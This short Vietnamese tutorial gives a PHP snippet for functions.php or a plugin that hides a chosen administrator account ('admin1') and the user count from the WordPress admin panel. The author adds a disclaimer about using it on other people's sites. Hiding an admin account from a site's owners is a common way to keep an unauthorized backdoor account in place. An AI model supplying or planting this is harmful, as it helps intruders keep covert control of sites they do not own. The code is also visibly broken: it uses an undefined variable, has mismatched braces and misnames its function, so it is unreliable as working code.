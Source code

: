 # Hướng dẫn ẩn thành viên trong trang Admin của Wordpress

- Trước tiên, tạo user muốn ẩn ( Ví dụ user mình tạo là admin1, thì điền vào code dưới là admin ). Sau đó copy đoạn code dưới vào bất kỳ chỗ nào trong wordpress (function.php, *plugins,...).

```c
 add_action('pre_user_query','yoursite_pre_user_query');
function yoursite_pre_user_query($user_search) {
global $current_user;
if ($username == 'admin1') {
}
else{
global $wpdb;
$user_search->query_where = str_replace('WHERE 1=1',
 "WHERE 1=1 AND {$wpdb->users).user_login != 'admin1' ",$user_search->query_where);
}
}

 function hide_useR_count(){ ?> <style> .wp-admin.users-php span.count {display:none;} </style> <?php } add_action('admin_head','hide_user_count');
```

- Đây là dòng code ẩn user trong admin wordpress, tôi không khuyến khích bạn làm trang wordpress của người khác. Tôi sẽ không chịu trách nhiệm nào việc bạn sử dụng mục đích không chính đáng.
